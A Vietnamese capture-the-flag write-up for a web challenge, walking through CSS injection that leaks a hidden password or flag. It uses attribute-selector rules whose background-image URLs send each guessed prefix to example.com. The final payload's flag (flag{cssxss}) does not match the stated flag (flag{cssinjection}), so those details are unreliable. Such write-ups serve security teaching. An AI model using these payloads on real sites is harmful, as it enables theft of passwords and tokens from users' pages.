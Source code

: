 # Mô tả (cung cấp cho CTFer)
Have you heard of CSS injection?
select your favorite color and display on amdin at /admin

## Writeup
trong giao diện được cung cấp bạn có thể thấy rằng có một mục input nơi chúng ta có thể nhập color mình muốn. Ngoài ra còn có một trường ẩn, giá trị của nó được lấy từ cookie.

tìm hiểu trên payload all of thing bạn sẽ thấy payload sau:
blue}; input[type="password"][value^="c"] {background-image: url('https://example.com?c');

ví dụ: bạn có thể test thử từng cái một như sau:
input[type="password"][value^="a"] {background-image: url('https://example.com?a');}
input[type="password"][value^="b"] {background-image: url('https://example.com?b');}
input[type="password"][value^="c"] {background-image: url('https://example.com?c');}
...

Do đó, điều này sẽ cho bạn biết những ký tự nào đúng và phù hợp. Cứ như vậy cho tới khi tìm thấy toàn bộ password.
Khi ký tự đầu tiên bị phát hiện bạn có thể tiếp tục để phát hiện các ký tự tiếp theo.

input[type="password"][value^="fa"] {background-image: url('https://example.com?fa');}
input[type="password"][value^="fb"] {background-image: url('https://example.com?fb');}
input[type="password"][value^="fl"] {background-image: url('https://example.com?fl');}
...

cứ như vậy cho tới khi thấy flag.
blue;} input[type="password"][value^="flag{cssxss}"] {background-image: url('https://example.com?flag{cssxss}');

flag: flag{cssinjection}


